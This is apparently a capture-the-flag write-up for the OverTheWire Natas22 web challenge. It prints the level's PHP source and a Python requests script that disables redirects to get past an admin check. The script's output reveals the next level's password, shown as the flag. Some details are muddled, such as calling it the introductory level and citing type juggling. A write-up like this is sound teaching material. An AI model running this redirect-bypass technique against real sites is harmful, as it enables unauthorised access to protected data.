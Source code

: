 # CTF Writeup - **OverTheWire Natas21 - Natas22**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas21 - Natas22
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 21-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using type juggling.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas22
Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
URL:      http://natas22.natas.labs.overthewire.org
```

After logging in, we can see that the webpage doesnot show anything to us. This is not very helpful or interesting for finding any clues. Lets directly view the source code of the webpage.

```bash
<?php
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

<?php
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

We can see that this php code checks if there is a parameter `revelio` in the request based on that it check if the requested user is `admin` or not. The non admin users are redirected to `/` instead of the actual webpage. This is interesting for us as we can take advantage of this by disallowing redirects as it doesnot not check if the requested user is admin after going to the webpage. The second piece of code again checks if the request has `revelio` in it and then prints credentials. The request should contain `revelio` in it. Lets try it send it using python as shown below.


```bash
import requests

target = 'http://natas22.natas.labs.overthewire.org?debug=true&revelio=true&admin=1'
auth = ('natas22','d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz')

session = requests.Session()

r = session.get(target, auth=auth, allow_redirects=False)
print(r.text)
```

The above script creates a session first with a request. It sends the `revelio` parameter using url and send a get request along with disabling the redirects. We wont be redirected to `/` even though we are not admin users.  The below ouput shows that we are able to get the credentials for the next level.

```bash
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>       
# <script>var wechallinfo = { "level": "natas22", "pass": "d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz" };</script></head>
# <body>
# <h1>natas22</h1>
# <div id="content">

# You are an admin. The credentials for the next level are:<br><pre>Username: natas23
# Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs</pre>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```


## Flag

**Flag:** dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs


---

## Lessons Learned

It was a simple challenge. I didnt quite understand the php code of header(), but once i understood the concept, I was able to solve it.